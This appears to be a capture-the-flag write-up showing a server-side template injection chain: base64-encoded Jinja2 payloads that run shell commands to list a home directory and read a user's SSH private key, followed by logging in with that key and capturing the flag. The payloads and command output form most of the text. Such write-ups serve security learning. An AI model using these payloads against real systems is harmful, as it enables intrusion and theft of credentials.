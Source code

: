 e3tjb25maWcuX19jbGFzc19fLl9faW5pdF9fLl9fZ2xvYmFsc19fWydvcyddLnBvcGVuKCdscyAtbGFoIC9ob21lL2R1Y2snKS5yZWFkKCl9fTo3MDNiMTc5Njk1YjI2ZmMwMWU0YjE4ZTNlNjA1ZGUyYQ==
(base64) -> `{{config.__class__.__init__.__globals__['os'].popen('ls -lah /home/duck').read()}}`:703b179695b26fc01e4b18e3e605de2a
![[Pasted image 20240902170819.png]]

total 100K 
drwxr-xr-x 8 duck duck 4.0K Aug 22 17:49 . 
drwxr-xr-x 4 root root 4.0K Aug 14 08:48 .. 
drwxr-xr-x 2 root root 4.0K Aug 22 17:46 .bash_history 
-rw-r--r-- 1 duck duck 220 Aug 14 08:48 .bash_logout 
-rw-r--r-- 1 duck duck 3.7K Aug 22 17:49 .bashrc 
drwxrwxr-x 3 duck duck 4.0K Aug 21 23:59 .cache 
drwx------ 3 duck duck 4.0K Aug 21 20:35 .config 
-rw------- 1 duck duck 20 Aug 22 04:07 .lesshst 
drwxrwxr-x 3 duck duck 4.0K Aug 21 20:45 .local 
drwxrwxr-x 2 duck duck 4.0K Aug 14 09:14 manutencao 
-rw-r--r-- 1 duck duck 807 Aug 14 08:48 .profile 
drwx------ 2 duck duck 4.0K Aug 14 08:50 .ssh 
-rw-rw-r-- 1 root root 27 Aug 22 00:37 wtduck.txt 
-rw-rw-r-- 1 duck duck 48K Aug 22 17:48 .zcompdump


e3tjb25maWcuX19jbGFzc19fLl9faW5pdF9fLl9fZ2xvYmFsc19fWydvcyddLnBvcGVuKCdscyAtbGFoIC9ob21lL2R1Y2svLnNzaCcpLnJlYWQoKX19OjcwM2IxNzk2OTViMjZmYzAxZTRiMThlM2U2MDVkZTJh
(base64) -> `{{config.__class__.__init__.__globals__['os'].popen('ls -lah /home/duck/.ssh').read()}}`:703b179695b26fc01e4b18e3e605de2a
![[Pasted image 20240902171117.png]]

total 20K 
drwx------ 2 duck duck 4.0K Aug 14 08:50 . 
drwxr-xr-x 8 duck duck 4.0K Aug 22 17:49 .. 
-rw-rw-r-- 1 duck duck 570 Aug 14 08:50 authorized_keys 
-r-------- 1 duck duck 2.6K Aug 14 08:49 id_rsa 
-r--r--r-- 1 duck duck 570 Aug 14 08:49 id_rsa.pub

e3tjb25maWcuX19jbGFzc19fLl9faW5pdF9fLl9fZ2xvYmFsc19fWydvcyddLnBvcGVuKCdjYXQgL2hvbWUvZHVjay8uc3NoL2lkX3JzYScpLnJlYWQoKX19OjcwM2IxNzk2OTViMjZmYzAxZTRiMThlM2U2MDVkZTJh
(base64) -> `{{config.__class__.__init__.__globals__['os'].popen('cat /home/duck/.ssh/id_rsa').read()}}`:703b179695b26fc01e4b18e3e605de2a
![[Pasted image 20240902171349.png]]

copiar para id_rsa.txt
chmod 600 id_rsa
ssh -i id_rsa duck@tribopapaxota.org
![[Pasted image 20240902173844.png]]

QUACK{duck_h45_b33n_pwn3d}

Had to leave a message :)
![[Pasted image 20240905165416.png]]
